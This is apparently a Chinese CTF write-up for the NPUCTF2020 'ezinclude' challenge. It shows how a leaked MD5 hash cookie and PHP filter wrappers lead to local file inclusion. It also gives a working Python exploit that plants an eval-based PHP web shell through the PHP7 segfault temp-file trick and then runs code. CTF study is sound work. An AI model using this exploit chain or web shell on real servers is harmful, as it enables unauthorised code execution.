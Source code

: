# \[NPUCTF2020]ezinclude

## \[NPUCTF2020]ezinclude

## 考点

* 从LFI到RCE
* 利用session.upload\_progress进行文件包含
* 利用php7 Segment Fault

## wp

打开直接显示`username/password error`

F12提示`md5($secret.$name)===$pass`

查看返回头给了HASH

```
Set-Cookie: Hash=fa25e54758d5d5c1927781a6ede89f8a; expires=Fri, 25-Feb-2022 05:50:05 GMT; Max-Age=3600000
```

这就相当于告诉了name和pass，访问`/?name=&pass=fa25e54758d5d5c1927781a6ede89f8a`跳转到404页面，用burp抓包可以看到未跳转的页面

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png>)

访问flflflflag.php，发现是404，再抓包

![](<../../.gitbook/assets/image (30) (1) (1).png>)

是一个文件包含，直接尝试PHP伪协议`php://filter/read=convert.base64-encode/resource=index.php`

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
  echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
  </script>
';
}else{
  setcookie("Hash",md5($secret.$name),time()+3600000);
  echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

flflflflag.php

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
  die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

目录扫描可以找到dir.php

```php
<?php
var_dump(scandir('/tmp'));
?>
```

然后就没找到什么了，可能是LFI到RCE，对了，返回头写了PHP的版本是7.0

本来想用session.upload\_progress进行文件包含，可能是buu的限制没成功。那就换个思路，用[php7 Segment Fault](https://qftm.github.io/2020/03/15/LFI-PHPINFO-OR-PHP7-Segment-Fault/#toc-heading-19)

```php
import requests 
from io import BytesIO 
import re 

files = { 
    'file': BytesIO(b'<?php eval($_POST["cmd"]);?>') 
} 

url1 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=index.php' 

r = requests.post(url=url1, files=files, allow_redirects=False) 

url2 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=dir.php' 

r = requests.get(url2,allow_redirects=False) 
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content.decode()).group(0) 


print("++++++++++++++++++++++")
print(data) 
print("++++++++++++++++++++++") 


url3='http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=/tmp/'+data


data = { 'cmd':"phpinfo();" } 


r = requests.post(url=url3,data=data,allow_redirects=False) 

print(r.content)
```

我说怎么一直system不动，原来给ban了，所以用session.upload\_progress进行文件包含也是可以的。

![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)

写入shell后用蚁剑然后bypass

![](<../../.gitbook/assets/image (15) (1).png>)

## 小结

1. 从LFI到RCE
2. 代码执行先看看`phpinfo()`有没有东西
